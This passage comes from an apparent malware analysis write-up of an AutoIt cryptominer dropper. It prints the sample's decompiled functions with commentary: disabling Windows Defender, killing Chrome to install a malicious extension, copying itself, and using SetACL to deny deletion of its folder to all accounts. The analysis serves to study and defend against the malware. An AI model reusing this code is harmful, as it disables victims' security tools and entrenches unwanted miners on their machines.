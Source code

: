 |`setacl.exe`|An open souce tool for changing security permission in Windows|
|`update-x64.exe`|Xmrig miner, but changed the icon and the infos|
|`update-x86.exe`|Also Xmrig, but the 32 bit version (I don't know why)|
|`WinRing0x64.sys`|To be loaded by Xmrig, `allow access to RDMSR, CPUID and RDTSC instructions` from Ring 3 in x86. This might be used by Xmrig to detect the hardware model to load the assembly accelerator|
#### m) 10th function: Kill Windows Defender
```autoit
Func main10() ; Kill Windows Defender
	If @OSVersion = "WIN_10" Then ; Check if the windows version is Windows 10 - maybe to find Windows Defender?
		Run($virusdir & "\" & "defender.exe /D", $virusdir, @SW_HIDE) ; Windows Defender disabler
		ProcessClose("SecurityHealthHost.exe") ; Kill it! Easy like that?
	EndIf
	main11()
EndFunc
```
<br> It kill Windows Defender with the `defender.exe` from `www.sordum.org`. This is a tool that people use to disable Windows Defender.
<br> You can view it on VirusTotal [here](https://www.virustotal.com/gui/file/ce3a6224dae98fdaa712cfa6495cb72349f333133dbfb339c9e90699cbe4e8e4/detection), on Any.run [here](https://app.any.run/tasks/5b8bc7d6-48c3-4dfc-af25-a5accae0a937/)
#### m) 11th function: copy itself to the created directory
```autoit
Func main11() ; Copy itself to virus directory
	FileCopy(@ScriptFullPath, $virusdir & "\app.exe", 1) ; Copy the current virus itself to the virus directory it created
	main12()
EndFunc
```
<br> It copy itself to the directory it has created, and rename to `app.exe`. In an infected machine, in that directory I didn't see `app.exe` for some reason.
#### n) 12th function: kill chrome
```autoit
Func main12() ; Kill Chrome
	While WinGetHandle(REGEXPTITLE:(?i)(.*Chrome.*)) ; Kill chrome by get the handle
		WinClose([REGEXPTITLE:(?i)(.*Chrome.*)])
	WEnd
	ProcessClose("chrome.exe")
	ProcessWaitClose("chrome.exe") ; Kill it to install the extension
	main13()
EndFunc
```
<br> Kill Chrome to install the malicious extension.
#### o) 13th function: set permision for the directory
```autoit
Func main13() ; Protect itself from being deleted
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn setprot -op dacl:p_nc", $virusdir, @SW_HIDE)
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn ace -ace n:SYSTEM;p:del_child;m:deny -ace n:SYSTEM;p:delete;m:deny", $virusdir, @SW_HIDE)
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn ace -ace n:Administrators;p:del_child;m:deny -ace n:Administrators;p:delete;m:deny", $virusdir, @SW_HIDE)
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn ace -ace n:Users;p:del_child;m:deny -ace n:Users;p:delete;m:deny", $virusdir, @SW_HIDE)
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn ace -ace n:Everyone;p:del_child;m:deny -ace n:Everyone;p:delete;m:deny", $virusdir, @SW_HIDE)
	RunWait($virusdir & "\SetACL.exe -on . -ot file -actn setowner -ownr n:SYSTEM", $virusdir, @SW_HIDE)
	main14()
EndFunc
```
<br> `setacl` is an FOSS (LGPL v2) tools for modifing the security permission of Windows.